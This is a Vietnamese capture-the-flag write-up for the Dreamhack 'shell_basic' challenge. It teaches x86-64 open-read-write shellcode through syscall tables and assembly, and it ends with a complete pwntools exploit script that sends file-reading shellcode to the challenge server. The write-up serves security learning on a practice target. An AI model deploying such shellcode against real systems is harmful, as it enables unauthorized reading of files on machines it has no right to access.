 ![shell_basic dreamhack](image.png)

# 0x00 Tổng quan 
- Files được cho: `shell_basic`, `shell_basic.c`
- Không như các bài toán khác, đối với bài này, chúng ta cần phải viết shellcode để đọc flag tại `/home/shell_basic/flag_name_is_loooooong`

# 0x01 Shellcode? 
Shellcode là đoạn mã assembly, được chèn vào payload để thực hiện các mục đích khác nhau như lấy shell, đọc nội dung file, ... Với bài toán ở trên, mục đích chính của shellcode là đọc nội dung của file. Với loại shellcode này, mình sẽ gọi tắt là **orw shellcode (open-read-write shellcode)**.

Để viết được **orw shellcode**, chúng ta cần sử dụng các syscall của hệ thống. Dưới đây là các nội dung của các syscall cần thiết. 

| syscall   | rax       | arg0(rdi)     | arg1 (rsi)    | arg2 (rdx)    | 
| --------- | ------    |-----------    | -----------   | -----------   | 
| read      | 0x00      |unsigned int fd| char *buf     |size_t count   |
| write     | 0x01      |unsigned int fd|const char *buf|size_t count   |
| open      | 0x02      |const char *filename|int flags |umode_t mode    |

Chúng ta cùng đi phân tích cụ thể từng syscall để xem syscall đó yêu cầu những gì, nó thực hiện công việc gì. 

## 1. int fd = open("/tmp/flag", O_RDONLY, NULL)

Giả sử, đường dẫn của file cần đọc là `tmp/flag`. 3 tham số của syscall này là:
- arg0: `/tmp/flag`. Chúng ta cần đưa chuỗi này vào stack. Để làm được điều đó, ta sẽ convert chuỗi này qua mã hex rồi push vào stack. Do stack là cấu trúc (LIFO) và chỉ nhận 8 byte một lần push. Vì vậy ta sẽ tách **"/tmp/flag" = "/tmp/fla" + "g"**
    - "/tmp/fla" = 0x616c662f706d742f
    - "g" = 0x67
- arg1: File access mode 
    - O_RDONLY (Open read-only) -> `flag = 0`
    - O_WRONLY (Open write-only) -> `flag = 1`
    - O_RDWR (Open read/write) -> `flag = 2`
- arg2: Khi đọc file, chúng ta không sử dụng tham số này. Vậy `arg2 = 0`
- rax: Để gọi syscall open, `rax = 0x02`

Cuối cùng, ta sẽ viết đoạn mã assembly để thực hiện các công việc ở trên 
```asm
push 0x67                       ; "g"
mov rax, 0x616c662f706d742f     ; "/tmp/fla"
push rax            
mov rdi, rsp                    ; rdi = "/tmp/flag"
xor rsi, rsi                    ; rsi = 0 ; O_RDONLY
xor rdx, rdx                    ; rdx = 0
mov rax, 0x02                   ; rax = 2 ; syscall_open
syscall                         ; open("/tmp/flag", O_RDONLY, NULL)
```

## 2. read(fd, buf, 0x30) 

Giả sử, chúng ta muốn đọc 0x30 bytes từ tệp dữ liệu. 3 tham số của syscall này đó là: 
- arg0: `fd`. Khi mở xong file, giá trị của `fd` được lưu trong thanh ghi `rax`. Vì vậy `rdi = rax`.
- arg1: `rsi` sẽ trỏ tới địa chỉ, nơi dữ liệu được đọc từ file lưu trữ. Do chúng ta sẽ đọc 0x30 bytes, `rsi = rsp - 0x30`.
- arg2: `rdx` sẽ bằng 0x30, số bytes dữ liệu được đọc từ tệp. 
- rax: Để gọi syscall này, `rax = 0x00`

Đoạn mã assembly thực hiện các công việc trên là
```asm
mov rdi, rax    ; rdi = fd
mov rsi, rsp    ;  
sub rsi, 0x30   ; rsi = rsp - 0x30 ; buf 
mov rdx, 0x30   ; rdx = 0x30
xor rax, rax    ; rax = 0
syscall         ; read(fd, buf, 0x30)
```

## 3. write(1, buf, 0x30)

Khi gọi syscall write, `rsi` và `rdx` không thay đổi.
- arg0: `fd`. Do đầu ra sẽ ở dạng xuất chuẩn, `rdi = 0x1`
- arg1: giữ nguyên như syscall read
- arg2: giữ nguyên như syscall read
- rax: Để gọi syscall, `rax = 0x01` 

Đoạn mã assembly thực hiên các công việc trên là
```asm
mov rdi, 0x01   ; rdi = 1 ; fd = stdout
mov rax, 0x01   ; rax = 1 ; syscall_write
syscall         ; write(fd, buf, 0x30)
```

# 0x02 Framework Pwntools
![Alt text](image-1.png)

Để thực hiện nhanh chóng các ý tưởng của chúng ta ở trên, framework pwntools có `shellcraft` để làm điều đó. 

```python
shellcode =  shellcraft.open('/tmp/flag')
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(0x01, 'rsp', 0x30)
```

# 0x03 Shell_Basic

Với toàn bộ kiến thức ở trên, chúng ta có thể dễ dàng giải quyết bài toán này bằng 2 cách viết shellcode 

```python
#!/usr/bin/env python3

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 20634
context.arch = 'amd64'
context.binary = elf = ELF('./shell_basic', checksec = False)
# p = process(elf.path)
p = remote(HOST, PORT)

path = '/home/shell_basic/flag_name_is_loooooong' 

shellcode1 = asm(
'''
push 0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax   
mov rax, 0x68732f656d6f682f
push rax    
mov rdi, rsp
xor rsi, rsi 
xor rdx, rdx 
mov rax, 2
syscall 
mov rdi, rax 
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall 
mov rdi, 1
mov rax, 1 
syscall 
''')

shellcode2 = shellcraft.open(path)
shellcode2 += shellcraft.read('rax', 'rsp', 0x30)
shellcode2 += shellcraft.write(0x01, 'rsp', 0x30) 

p.sendline(asm(shellcode2))

p.interactive()
```

# 0x04 Reference 
- https://learn.dreamhack.io/50 
- https://codebrowser.dev/glibc/glibc/bits/fcntl.h.html#24